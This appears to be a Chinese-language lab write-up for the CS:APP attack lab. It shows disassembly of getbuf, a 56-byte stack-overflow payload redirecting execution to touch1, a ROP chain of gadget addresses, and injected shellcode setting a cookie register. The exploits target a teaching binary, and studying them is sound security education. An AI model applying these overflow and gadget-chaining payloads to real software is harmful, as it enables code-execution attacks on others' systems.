 ```c
401a56:48 89 c7 90 movq %rax,%rdi,ret
```
计算<偏移量>为38

所以答案就是
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c6 1a 40 00 00 00 00 00
56 1a 40 00 00 00 00 00
5d 1a 40 00 00 00 00 00
38 00 00 00 00 00 00 00
a1 1a 40 00 00 00 00 00
6f 1a 40 00 00 00 00 00
56 1a 40 00 00 00 00 00
8e 19 40 00 00 00 00 00
34 66 38 64 36 32 33 34
```


## 104
### phase1

```c
00000000004018a2 <getbuf>:
  4018a2:	48 83 ec 38          	sub    $0x38,%rsp
  4018a6:	48 89 e7             	mov    %rsp,%rdi
  4018a9:	e8 94 02 00 00       	callq  401b42 <Gets>
  4018ae:	b8 01 00 00 00       	mov    $0x1,%eax
  4018b3:	48 83 c4 38          	add    $0x38,%rsp
  4018b7:	c3                   	retq  
```
注意到栈空间为 0x38 字节，填充56个字节垃圾信息后跟上touch1()函数首地址：00000000004018b8

**答案**：
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 18 40 00 00 00 00 00
```


### phase2

注入代码：
```txt
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf f0 10 75 7d       	mov    $0x7d7510f0,%edi
   5:	c3                   	retq      
```
